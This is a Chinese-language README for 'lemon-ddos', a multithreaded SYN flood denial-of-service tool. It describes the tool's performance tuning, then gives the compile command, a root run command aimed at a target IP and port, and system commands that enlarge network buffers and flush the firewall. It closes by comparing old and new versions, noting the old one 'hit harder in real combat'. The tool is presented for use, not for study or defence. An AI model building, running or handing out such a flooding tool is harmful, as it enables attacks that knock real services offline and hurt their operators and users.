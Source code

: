 # lemon-ddos
# 性能优化亮点：
```
1.每个线程独立资源：
 独立套接字
 独立随机数种子
 独立数据包缓冲区
 独立统计计数器
2.网络优化：
 100MB 发送缓冲区 (#define SOCKET_BUFFER_SIZE (100 * 1024 * 1024))
 非阻塞 I/O 模式
 TCP_NODELAY 选项禁用 Nagle 算法
3.CPU 优化：
 线程绑定到特定 CPU 核心
 高性能随机数生成器 (比标准 rand() 快 10 倍)
 预计算数据包长度减少循环开销
4.内存优化：
 栈上固定缓冲区用于校验和计算
 预生成随机负载避免重复计算
```
# 编译指令：
```
gcc -O3 -march=native -mtune=native -pthread -o syn_flood syn_flood.c
```
# 运行建议：
## 以 root 权限运行：
```
sudo ./syn_flood 192.168.1.100 80 16 60 100 eth0
```
## 系统优化命令：
```
# 增加网络缓冲区
sudo sysctl -w net.core.wmem_max=12582912
sudo sysctl -w net.core.rmem_max=12582912

# 增加最大打开文件数
ulimit -n 1000000

# 禁用防火墙
sudo iptables -F
```

## 监控性能：
```
# 查看CPU使用情况（按核心）
mpstat -P ALL 1

# 查看网络吞吐量
iftop -i eth0

# 查看中断分布
watch -n1 'cat /proc/interrupts | grep eth0'
```


# 对比
旧的
![image](https://github.com/user-attachments/assets/0fac75f3-e3af-46ff-b139-2aa62f27a3cd)
新的
![image](https://github.com/user-attachments/assets/cac62dd5-9f64-4f20-9c1e-f1bfaf873a1e)
从这次测试来看，新的效果不错，但是实战中，旧的好像打出过更好的效果，不过在此次截图的测试中，在目标节点上看两个的峰值差不多

